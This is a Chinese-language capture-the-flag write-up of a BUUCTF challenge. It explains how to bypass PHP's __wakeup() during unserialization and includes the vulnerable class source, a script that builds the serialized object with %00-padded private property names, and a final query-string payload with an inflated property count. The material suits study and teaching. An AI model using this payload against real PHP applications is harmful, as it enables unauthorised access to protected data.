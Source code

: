 ### PHP __wakeup() 绕过

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b18de9d0e0a243d4ffc65f.jpg)

打开网页给出了备份提示

![](https://pic1.imgdb.cn/item/67b1fc87d0e0a243d4ffe1e3.jpg)

扫后台发现 ZIP 文件

![](https://pic1.imgdb.cn/item/67b1fc9ad0e0a243d4ffe1e5.jpg)

下载下来打开 index.php 拿到源码（flag.php 是假的）

![](https://pic1.imgdb.cn/item/67b1fcafd0e0a243d4ffe1e6.jpg)

看到了反序列化，接下来去看 class.php

```
__wakeup 魔术方法：当对象反序列化时，会触发该方法终止脚本执行

__destruct 析构函数：当对象销毁时调用
```

```php
<?php
include 'flag.php';
 
 
error_reporting(0);
 
 
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
 
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
 
    function __wakeup(){
        $this->username = 'guest';
    }
 
    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
 
             
        }
    }
}
?>
```

我们需要传入 username = admin，password = 100，于是构造反序列化

```php
<?php
 
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
 
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin', 100);
var_dump(serialize($a));
 
?>
```

还没有结束，因为类的两个属性声明为 private，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见

所以要在此基础上补上 %00 的空字符

```
%00Name%00username

%00Name%00password
```

最后是绕过 __wakeup()

当反序列化中对象属性的个数和真实的个数不等时，__wakeup() 就会被绕过，所以修改使其不相等即可

```php
?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

![](https://pic1.imgdb.cn/item/67b20117d0e0a243d4ffe291.png)